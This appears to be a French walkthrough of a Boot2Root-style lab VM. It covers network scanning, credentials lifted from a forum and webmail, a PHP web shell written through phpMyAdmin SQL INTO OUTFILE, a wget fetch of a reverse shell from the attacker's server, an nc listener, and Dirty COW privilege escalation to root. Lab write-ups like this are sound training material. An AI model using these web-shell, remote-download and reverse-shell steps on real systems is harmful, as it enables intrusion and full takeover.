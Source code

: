 
# nmap
Une fois l'iso lancé, on cherche son IP sur le réseau : `nmap -sP 192.1.1.0/24`  
On scan ensuite les dossiers utilisés par la plupart des appli et serveurs web : `nmap -sV --script=http-enum <IP>`  
On trouve les chemins suivants :
```
 /forum/: Forum
 /phpmyadmin/: phpMyAdmin
 /webmail/src/login.php: squirrelmail version 1.4.22
 /webmail/images/sm_logo.png: SquirrelMail
```

# forum
On se rend sur le forum, dans lequel on trouve un topic 'Probleme login ?' posté par lmezard. Il contient des logs de connexions. On remarque que le log précédant la connexion réussie de lmezard contient un username ressemblant à un mot de passe : `!q\]Ej?*5K5cy*AJ`

On peut utiliser ces identifiants pour se connecter au forum. On accède au profil perso de lmezard dans lequel apparait son adresse mail : `laurie@borntosec.net`

# webmail
On se rend sur le webmail, et on utilise le mail de lmezard avec son MDP du forum.  
Dans la boite, un mail dont l'objet est "DB Access" contient les credentials de root pour la DB : `root/Fg-'kKXBj87E:aJ$`

# phpMyAdmin
On se rend sur phpMyAdmin, et on utilise les identifiants trouvés dans le mail. En cliquant sur l'onglet SQL on peut effectuer une injection SQL sur le serveur. Pour cela on a besoin de lancer la requête suivante: `SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/path/to/writable/directory/backdoor.php"`

On a donc besoin de trouver un dossier sur le serveur avec droits d'écriture. Sinon la requête va échouer.

## dirb
On utilise la commande dirb pour scanner les dossiers du serveur : `dirb https://<IP>`  
On trouve toute une liste de dossiers, listables ou non. On teste les listables, et l'on arrive à écrire dans `/forum/templates_c/`

## Injection SQL
Le serveur Apache utilise le chemin classique `/var/www` pour stocker ses sites. On lance donc la requête : `SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/backdoor.php"`

Le fichier backdoor.php va donc exécuter sur le serveur toute commande passée en argument dans l'URL, par exemple : `https://<IP>/forum/templates_c/backdoor.php?cmd=ls`
On obtient bien la liste des fichiers présents dans le dossier.

## Reverse shell
Pour faciliter la navigation dans le système de fichiers, on peut uploader un reverse shell sur le serveur pour s'y connecter à distance.  
On récupère un [reverse-shell sur le web](https://github.com/pentestmonkey/php-reverse-shell) qu'on configure pour fonctionner avec nos VM.  

Pour uploader ce shell sur le serveur, on le place sur un serveur perso et on utilise notre backdoor. Sur le serveur perso, on place php-reverse-shell à la racine du site. Sur un navigateur, on lance : `https://<IP>/forum/templates_c/backdoor.php?cmd=wget http://<IPserveur>/php-reverse-shell -O php-reverse-shell.php`
Le shell est désormais sur le serveur.

On ouvre une connexion TCP sur l'hôte : `nc -v -n -l -p 1234`  
Puis on lance le shell sur le serveur : `https://<IP>/forum/templates_c/php-reverse-shell.php`

La connexion s'effectue sur l'hôte, on a accès à un terminal avec l'utilisateur `www-data`.  
À partir de là, nous essayons de mettre en œuvre une élévation de privilège pour passer `root`.

# DirtyCOW

## Version KERNEL
On vérifie la version du Kernel : `uname -a`

On se rend compte que la version de Kernel (3.2.0-91) est vulnérable à la faille [Dirty COW](https://en.wikipedia.org/wiki/Dirty_COW).

Après quelques recherches sur le net, on trouve un exploit pour Dirty COW sur [Exploit DB](https://www.exploit-db.com/exploits/40839).

## Exploit
On copie le fichier `exploit_dirty.c` dans la VM : `scp exploit_dirty.c laurie@<IP>:/home/laurie`

On compile : `gcc -pthread exploit_dirty.c -o dirty -lcrypt`

On exécute : `./dirty <NEW-PASSWORD>`

L’exécutable va modifier le fichier `/etc/passwd`. Selon la [documentation Linux](http://www.linux-france.org/article/sys/lame/html/x829.html), le fichier est constitué de la façon suivante :
```
smithj:x:561:561:Joe Smith:/home/smithj:/bin/bash
```
Un `x` dans le champ mot de passe indique que les mots de passe sont stockés dans le fichier `/etc/shadow`.

Lorsque l’on exécute `dirty`, celui-ci va remplacer le `x` par le hash du mot de passe que nous venons de saisir. Ainsi lors de la comparaison des hash au moment de la connexion, le kernel va comparer le hash présent dans le fichier `/etc/passwd` et non plus dans le fichier `/etc/shadow`.

On exécute `su` avec le mot de passe choisi.

On vérifie l’uid : `id`

On se rend compte que nous sommes uid=0. BINGO !!!

On se déplace dans le dossier `/root` et avec un `cat README`, on se rend compte que nous sommes root sur la machine!

## Explication de la faille
La faille [Dirty COW](https://dirtycow.ninja/) touche le noyau Linux à partir de la version 2.6.22 (Septembre 2007) jusqu’à la version 4.4.25 inclus. Elle a été corrigée depuis la version 4.4.26.  
Elle exploite les fonctionnalités Copy-On-Write (COW) du noyau, d’où son nom. C’est par ce biais que le pirate peut atteindre et écrire sur des espaces mémoire qui, normalement, ne sont qu’en lecture seule.  
De cette façon, il est possible de procéder à une élévation de privilèges et devenir root.

La faille Dirty COW a été découverte par Phil Oester.
Pour plus de détails, cette [vidéo Youtube](https://www.youtube.com/watch?v=kEsshExn7aE) explique bien les choses.

